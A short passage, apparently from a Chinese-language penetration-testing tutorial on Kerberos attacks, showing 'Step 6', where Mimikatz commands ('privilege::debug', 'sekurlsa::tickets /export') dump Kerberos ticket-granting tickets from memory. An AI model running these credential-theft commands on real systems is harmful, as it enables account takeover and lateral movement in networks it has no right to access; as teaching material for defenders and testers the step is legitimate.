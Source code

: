 [![](assets/1705982146-b12ca69a216444e1ff42f0126d18815a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120222831-2f536a8e-b7a0-1.png)  
Step 6：为了方便起见，我们这里直接使用 Mimikatz 从内存中导出 TGT

```plain
privilege::debug
sekurlsa::tickets /export
```
